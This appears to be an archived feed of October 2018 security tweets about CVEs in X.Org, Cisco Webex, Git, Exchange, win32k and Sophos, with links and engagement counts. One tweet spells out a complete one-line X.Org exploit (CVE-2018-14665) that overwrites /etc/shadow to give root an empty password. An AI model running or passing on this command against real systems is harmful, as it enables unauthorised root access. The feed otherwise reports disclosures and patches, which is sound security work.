 # leonov_av
**https://twitter.com/leonov_av/status/1055871303889104897 _at 2018-10-26, 17:18:30_**
<blockquote>
Lol. It works. 😊 Tweetable Exploit by @hackerfantastic for https://t.co/f6XXfwufVX Server Local Privilege Escalation (CVE-2018-14665). It fills /etc/shadow with trash, but leaves one correctly interpreted line setting empty password for root. https://t.co/fkEMPCyxkt
</blockquote>

* http://X.org

<table><tr>
<td><img src="pictures/cf4b426cc9bc86869e2a2a18657dcfdb467b7989d386dc0f89c5e3da6f183734.jpg" alt="cf4b426cc9bc86869e2a2a18657dcfdb467b7989d386dc0f89c5e3da6f183734.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1055822899330932737 _at 2018-10-26, 14:06:10_**
<blockquote>
New privilege-escalation flaw (CVE-2018-14665) discovered in https://t.co/8eq405azzF Server that affects OpenBSD and most #Linux distributions, including Debian, #Ubuntu, CentOS, Red Hat and Fedora. [Install Patches]

https://t.co/obBqAuZyuW

Researcher releases PoC exploit code. https://t.co/8AK6jgGTYz
</blockquote>

* http://X.Org
* https://thehackernews.com/2018/10/privilege-escalation-linux.html

<table><tr>
<td><img src="pictures/8ccfb3ac248e892249dfbdbe2ee4e382470b4aa6a9de3671826d52da2b620af7.jpg" alt="8ccfb3ac248e892249dfbdbe2ee4e382470b4aa6a9de3671826d52da2b620af7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>227</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at 2018-10-25, 21:14:26_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/bd016c2699b518a710a61263116eb9e80ba606454d9f29fb6a06cb803855b8a7.jpg" alt="bd016c2699b518a710a61263116eb9e80ba606454d9f29fb6a06cb803855b8a7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>425</code></td>
<td>Favorites: <code>548</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at 2018-10-25, 20:23:03_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/ae24c10e8008b2e8197e9d6af860d6c8c4589a7525f29b9afc99e7958e5477e7.jpg" alt="ae24c10e8008b2e8197e9d6af860d6c8c4589a7525f29b9afc99e7958e5477e7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at 2018-10-25, 17:53:49_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>941</code></td>
<td>Favorites: <code>1363</code></td>
</tr></table>

---

# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at 2018-10-25, 14:33:50_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td><img src="pictures/6821d2299785305e880a8f7fc22ec95fef5722f820245fe32f226d9cc4908929.jpg" alt="6821d2299785305e880a8f7fc22ec95fef5722f820245fe32f226d9cc4908929.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>138</code></td>
<td>Favorites: <code>187</code></td>
</tr></table>

---

# joernchen
**https://twitter.com/joernchen/status/1052054119920427008 _at 2018-10-16, 04:30:23_**
<blockquote>
My exploitation notes for CVE-2018-17456 (.gitmodules RCE) https://t.co/r269O9Ejcu
</blockquote>

* https://gist.github.com/joernchen/38dd6400199a542bc9660ea563dcf2b6

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1050164602527473666 _at 2018-10-10, 23:22:07_**
<blockquote>
CVE-2018-8265 and CVE-2018-8493 will keep a lot of people busy this month! Remote TCP/IP stack info disclosure &amp; RCE on Exchange via an email. The Exchange bug, if reliable, is WAY more troublesome.
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>164</code></td>
</tr></table>

---

# SelsRoger
**https://twitter.com/SelsRoger/status/1050105182422556672 _at 2018-10-10, 19:26:00_**
<blockquote>
Microsoft patches 0day vulnerability in win32k.sys discovered by  Kaspersky Lab in August, targeting victims in the Middle East. Microsoft confirmed the vulnerability and designated it CVE-2018-8453. The exploit was executed by the first stage of a malware installer
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1047855525667504129 _at 2018-10-04, 14:26:40_**
<blockquote>
CVE-2018-6851 to CVE-2018-6857: Sophos Privilege Escalation Vulnerabilities

- technical writeUp &amp;&amp; PoC Movie

#infosec #vulnerability #exploitDev 
https://t.co/G0OE88kJgb
</blockquote>

* https://labs.nettitude.com/blog/cve-2018-6851-to-cve-2018-6857-sophos-privilege-escalation-vulnerabilities/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

